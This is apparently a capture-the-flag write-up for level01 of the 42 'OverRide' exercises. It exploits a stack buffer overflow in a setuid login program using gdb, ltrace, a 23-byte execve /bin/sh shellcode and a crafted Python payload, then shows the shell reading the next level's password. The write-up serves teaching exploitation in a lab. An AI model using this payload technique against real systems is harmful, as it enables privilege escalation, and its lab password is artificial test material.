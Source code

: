 # 1st Step
  
List the files will show us `level01` executable
```
level01@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: bla
verifying username....

nope, incorrect username...

level01@OverRide:~$
```
The program waits for a username/password and exit if it's not good.  
After analyze it with gdb we can find three interesting functions : `main()`, `verify_user_name` and `verify_user_pass`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-OverRide/blob/main/level01/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-OverRide/blob/main/level01/source.c) for more details.  
A first read of ASM code allows us to see that function `verify_user_name` compares the user name to "dat_wil" and function `verify_user_pass` compares password to "admin".  
By looking closely to the code we can see that finding the password won't help us! Since there is no calls to `/bin/sh`, we can assume we'll have to use a shellcode this time.  
We'll have to write over `eip` in order to execute our shellcode, so first get the offset :
```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Thanks to the pattern generator we found an offset of 80.  
As the program use `fgets()` function we should not be able to make a buffer overflow but `fgets()` take a max string of 100 chars wich is more than the size of our buffer (64).  

## Create our exploit
*shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-827.php) (23 bytes)*  
We'll use `ltrace` to find the buffer address where the password is stored:
```
level01@OverRide:~$ ltrace ./level01
__libc_start_main(0x80484d0, 1, -10364, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********)           = 39
printf("Enter Username: ")                                                                  = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                                                               = 0x0804a040
puts("verifying username....\n"verifying username....)                                      = 24
puts("Enter Password: "Enter Password:)                                                     = 17
fgets(doesn't matter
"doesn't matter\n", 100, 0xf7fcfac0)                                                        = 0xffffd69c    <--- here she are
puts("nope, incorrect password...\n"nope, incorrect password...)                            = 29
+++ exited (status 1) +++
level01@OverRide:~$
```
Our input will be as follow :  
bytes 1-7: "dat_wil", to pass the `verify_user_name` function.  
byte  8: '\n', so that the first `fgets` stops taking user input.  
bytes 9-31: 23 bytes for our shellcode.  
bytes 31-88: 57 bytes of padding (23 + 57 = 80 to overwrite EIP with the next 4 bytes).  
bytes 88-92: 0xffffd69c ("\x9c\xd6\xff\xff" in little endian)
```
level01@OverRide:~$ python -c 'print "dat_wil" + "\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "a" * 57 + "\x9c\xd6\xff\xff"' > /tmp/exploit
level01@OverRide:~$ cat /tmp/exploit - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
exit
quit
level01@OverRide:~$ su level02
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
level02@OverRide:~$
```
Level01 passed !
